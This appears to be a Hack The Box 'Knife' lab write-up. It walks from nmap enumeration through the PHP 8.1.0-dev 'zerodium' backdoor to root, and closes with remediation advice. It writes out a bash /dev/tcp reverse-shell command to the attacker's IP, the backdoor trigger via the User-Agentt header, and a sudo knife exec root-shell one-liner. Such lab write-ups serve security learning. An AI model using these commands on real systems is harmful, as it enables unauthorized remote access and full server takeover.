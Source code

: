 ```yaml
---                                                                                           
title:  Hack The Box - Knife writeup
date: 2021-08-30 16:09:00 +0200
categories: [ Hack The Box, Machines ] 
tags: [common-vulnerability, php] 
dirImg: /assets/img/HackTheBox/Knife
  src: /assets/img/HackTheBox/Knife/icon.webp
  alt: Knife image
toc: false  
---
```


In this post we explore the Knife machine hosted on the HackTheBox website. We first scan the machine to enumerate the open ports and the respective running services.

### Analyze and Discovery

We start with an `nmap` enumeration. The `-sC` flag enables the usage of the default nmap scripts and the `-sV` flag enables the service and version discovery.

```
  [#] ~ nmap -sC -sV -oN nmap-initial 10.10.10.242

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 09:49 CEST
Nmap scan report for 10.10.10.242
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.26 seconds
```

Two ports results to be open: port 22 for the ssh service and 80 which hosts an Apache web service.

Visiting the webserver we land on the following page:

>![]({{ page.dirImg }}/homepage.png){: .shadow}


The attack surface is very small as there aren't any input fields nor clickable links. The tabs on the top right of the page are not actually implemented.  

We can easily figure out that the website's backend language is PHP by noticing that the landing page is called `index.php`. This information may be useful in the future to tailor our enumeration/attacks.

We can gather further information on the resources hosted on the webserver by enumerating files or directories served on port 80. For this purpose, we can use `gobuster` and perform a dictionary-based brute force enumeration. 
As we know that the web server is written in php, it may contain files ending with `.php`. It may be useful to tell `gobuster` to also append the `.php` extension to the dictionary entries. The `-x` flag enables such feature.
The full `gobuster` command is 
```
gobuster dir -u http://10.10.10.242 -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 50 -o gobuster-port80.txt
```

However the directory enumeration didn't return any valuable results. 

We can still examine the requests and responses generated when visiting the `index.php` page and see whether we can spot any anomalies. 

We open the Firefox developer tools and navigate to the `Network` tab. Here we can see the request sent by the browser to the server to request the `index.php` page and its respective response.

>![]({{ page.dirImg }}/20210605-095915.png){: .shadow}

The `X-Powered-By` HTTP response header leaks the `PHP` version in use

>![]({{ page.dirImg }}/20210605-100046.png){: .shadow}


Now that we know the specific version of php used, namely `php 8.1.0-dev`, we can google for known vulnerabilities.  
Our search produced a very interesting result:

>![]({{ page.dirImg }}/20210605-100432.png){: .shadow}

It confirms that the current version is vulnerable and contains a backdoor that may cause remote code execution. What we need to do is finding this backdoor and exploit it.   

### Insight into the `PHP` backdoor

In exploitDB we can find the reference to the malicious commit that introduced the backdoor in the PHP code base. ([ExploitDB](https://www.exploit-db.com/exploits/49933)).

The backdoor is contained in the following code snippet:

>![]({{ page.dirImg }}/20210605-101856.png){: .shadow}

As we can easily spot, the content of the `HTTP_USER_AGENTT` is scanned for the `zerodium` string. If the string is found, then the content after the first 8 bytes is evaluated.

So, if we build our `HTTP_USER_AGENTT` such that it starts with `zerodium` (8 bytes) than we will be able to execute the remaining bytes.

### Attacking and Tinkering

We know that the payload after the `zerodium` string will be executed in the server. Therefore we can embed a reverse shell to gain a shell in the remote machine.  
The server machine is running Ubuntu (as we can see from the `nmap` output), so we can use a simple tcp reverse shell that starts a connection to our local machine: `bash -i >& /dev/tcp/10.10.14.19/9001 0>&1`.  
(10.10.14.19 is the ip address of our local machine in the HTB network).


Indeed, we need to setup a tcp listener in our local machine to listen on port 9001 for the incoming connection. It can be done using netcat: `nc -lnvp 9001`.

The listener is ready, we can now trigger the backdoor.  
We embed our reverse shell into the `User-Agentt` header using BurpSuite.

>![]({{ page.dirImg }}/20210605-102948.png){: .shadow}

And we get the callback

>![]({{ page.dirImg }}/20210605-102850.png){: .shadow}


> An alternative to BurpSuite is the `curl` linux command. However, it would not be a very pleasant experience as one needs to pay close attention on escaping quotes.

We now have a shell as the **james** user. We can get the user flag by printing the `/home/james/user.txt` file.

#### Privilege Escalation

We can scan the machine for possible privilege escalation vectors.  

Before using any Linux enumeration scripts, we can try to see which commands the user **james** can execute as another user. It can be done using the `sudo -l` command.

>![]({{ page.dirImg }}/20210605-103224.png){: .shadow}

As we can see from the command's output, we can execute the `knife` binary as root without the need to provide a password. 

But what is knife?

>![]({{ page.dirImg }}/20210605-112124.png){: .shadow}

(More information on [Chef Documentation website](https://docs.chef.io/workstation/knife/) ) 

The documentation is indeed a useful resource to look at. It may be possible to find exploit vectors. 

As expected, going through the documentation highlighted an exploitable feature of the `knife` binary. It looks like we can execute arbitrary Ruby code:

>![]({{ page.dirImg }}/20210605-105525.png){: .shadow}

Therefore we run the binary as **root** and spawn a shell using Ruby code.

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/bash"'
sudo knife exec -E 'exec "/bin/bash"'
$ whoami
root
```

We managed to get **root**, flag is in `/root/root.txt`

### Reflection on the security

In this section we highlight the security weaknesses that allowed us to get full control over the remote server. Moreover, we propose solutions to mitigate and patch such vulnerabilities

#### Security weaknesses and recommendations

- We managed to get a foothold in the target machine by exploiting an outdated version of PHP which contained a known backdoor. The vulnerability is extremely easy to exploit and allows an unauthenticated attacker to remotely gain access to the server's OS. Given the high impact and easiness of exploitation, the vulnerability can be classified as high risk and should be immediately patched.   
We advice to always keep the software up to date. Publicly facing web servers should have high priority and be updated daily as they are the first point of entry to the machine.

- The `X-Powered-By` leaks the PHP version in use, thus easily giving out extra information to the attacker. Such header should be immediately suppressed. Without the info about the PHP version the attacker would have had a harder time breaking into the machine. However security by obscurity is never a good solution and the problem should be fixed at the root (keep the software up to date).

- We managed to escalate our privileges by exploiting an over permissive rule in the `sudoers` file. Such rule allowed the `james` user to execute the `knife` binary as root without the need of a password. Such configuration together with the large variety of features exposed by the binary, easily allow an attacker to gain full control over the machine.
It is still unclear why the `sudoers` file contained such entry but it is definitely an over permissive rule which does not follow the minimality principle.  
It's highly likely that the system administrator lazily set up the `knife` sudo permissions without taking security into account.  
In case the **james** user is required to execute part of the `knife` features, we advice to configure the `sudoers` file in a more granular way, giving the users access to the required features only, and only after an accurate analysis of such features.  

